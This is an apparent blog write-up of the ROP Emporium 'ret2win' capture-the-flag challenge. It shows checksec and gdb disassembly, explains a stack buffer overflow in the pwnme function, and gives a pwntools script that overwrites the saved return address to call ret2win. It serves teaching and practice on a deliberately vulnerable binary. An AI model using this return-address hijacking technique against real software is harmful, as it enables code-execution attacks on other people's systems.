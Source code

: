 ```yaml
---
title: Return-Oriented Programming - ret2win
date: '2021-12-20'
tags: ['ropemporium', 'rop', 'pwn']
draft: false
summary: ret2win means return here to win and it's recommended you start with this challenge. Visit the challenge page by clicking this card to learn more.
images: '/static/images/ropemporium/ret2win.jpg'
layout: PostLayout
---
```


# Introduction

Challenge description

> Locate a method that you want to call within the binary. Call it by overwriting a saved return address on the stack.

This challenge is classical pwn challenge of overwriting the return address with desired address you want to return to.

The binaries for the challenges can be downloaded from the author`s website [ropemporium](https://ropemporium.com).The goal of first challenge is to call the **ret2win** function.

After downloading the binary, the first thing is to check the binary protection enabled on the binary using `checksec` utility.

```bash
vx@archie:ret2win$ checksec --file ret2win
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Only **NX** (Not executable) is enabled on the binary meaning we cannot execute code stored on the stack like shellcode.and the behavior of this program we will use gdb. gdb is a tools that enables to inspect the behavior of binaries at runtime.

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000400528  _init
0x0000000000400550  puts@plt
0x0000000000400560  system@plt
0x0000000000400570  printf@plt
0x0000000000400580  memset@plt
0x0000000000400590  read@plt
0x00000000004005a0  setvbuf@plt
0x00000000004005b0  _start
0x00000000004005e0  _dl_relocate_static_pie
0x00000000004005f0  deregister_tm_clones
0x0000000000400620  register_tm_clones
0x0000000000400660  __do_global_dtors_aux
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
0x0000000000400780  __libc_csu_init
0x00000000004007f0  __libc_csu_fini
0x00000000004007f4  _fini
(gdb)
```

The binary has various functions has as shown in the output above.For initial analysis we start at the main function which is the entrypoint of our program.

```nasm
(No debugging symbols found in ret2win)
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400697 <+0>:	push   rbp
   0x0000000000400698 <+1>:	mov    rbp,rsp
   0x000000000040069b <+4>:	mov    rax,QWORD PTR [rip+0x2009b6]        # 0x601058 <stdout@@GLIBC_2.2.5>
   0x00000000004006a2 <+11>:	mov    ecx,0x0
   0x00000000004006a7 <+16>:	mov    edx,0x2
   0x00000000004006ac <+21>:	mov    esi,0x0
   0x00000000004006b1 <+26>:	mov    rdi,rax
   0x00000000004006b4 <+29>:	call   0x4005a0 <setvbuf@plt>
   0x00000000004006b9 <+34>:	mov    edi,0x400808
   0x00000000004006be <+39>:	call   0x400550 <puts@plt>
   0x00000000004006c3 <+44>:	mov    edi,0x400820
   0x00000000004006c8 <+49>:	call   0x400550 <puts@plt>
   0x00000000004006cd <+54>:	mov    eax,0x0
   0x00000000004006d2 <+59>:	call   0x4006e8 <pwnme>
   0x00000000004006d7 <+64>:	mov    edi,0x400828
   0x00000000004006dc <+69>:	call   0x400550 <puts@plt>
   0x00000000004006e1 <+74>:	mov    eax,0x0
   0x00000000004006e6 <+79>:	pop    rbp
   0x00000000004006e7 <+80>:	ret
End of assembler dump.
(gdb)
```

From the initial analysis of the main function, we are calling an interesting function called **pwnme**. Next disassemble **pwnme** function to understand the behavior.

```nasm
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400838
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x400898
   0x0000000000400715 <+45>:	call   0x400550 <puts@plt>
   0x000000000040071a <+50>:	mov    edi,0x4008b8
   0x000000000040071f <+55>:	call   0x400550 <puts@plt>
   0x0000000000400724 <+60>:	mov    edi,0x400918
   0x0000000000400729 <+65>:	mov    eax,0x0
   0x000000000040072e <+70>:	call   0x400570 <printf@plt>
   0x0000000000400733 <+75>:	lea    rax,[rbp-0x20]
   0x0000000000400737 <+79>:	mov    edx,0x38
   0x000000000040073c <+84>:	mov    rsi,rax
   0x000000000040073f <+87>:	mov    edi,0x0
   0x0000000000400744 <+92>:	call   0x400590 <read@plt>
   0x0000000000400749 <+97>:	mov    edi,0x40091b
   0x000000000040074e <+102>:	call   0x400550 <puts@plt>
   0x0000000000400753 <+107>:	nop
   0x0000000000400754 <+108>:	leave
   0x0000000000400755 <+109>:	ret
End of assembler dump.
```

From the disassembled code above, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. **memset** is used to overwrite any values present memory area specified. The memory are we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32 bytes from the address of base pointer as shown in the stack diagram below.

![](/static/images/ropemporium/stack.png)

Therefore the next function is **read** function, which reads from the standard input file descriptor and stores in the specified buffer.From the disassembled code we see we are reading 0x38 bytes from the user input and storing it in our buffer.

```c
read(0, *[rbp-0x20], 0x38) //0 is file descriptor stdin
```

Because we are reading more than the buffer can hold, we corrupt the adjacent memory regions therefore casusing a stack buffer overflow. Therefore in order to control the return address as shown in the stack image shown above is to fill the buffer, overwrite the rbp register and control the return address with our desired address which is **ret2win** function address.

## Exploit

The exploit code for this ret2win function is,

```python
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./ret2win')

payload = b"A" * 32 # fill the buffer
payload += b"B" * 8  #overwrite saved base pointer
payload += pwn.p64(0x400756)  #Address of ret2win function
io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Running the script we get the flag.

```bash
vx@archie:ret2win$ python3 x.py
[+] Starting local process './ret2win': pid 45427
[*]  Thank you!
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}
[*] Process './ret2win' stopped with exit code 0 (pid 45427)
```
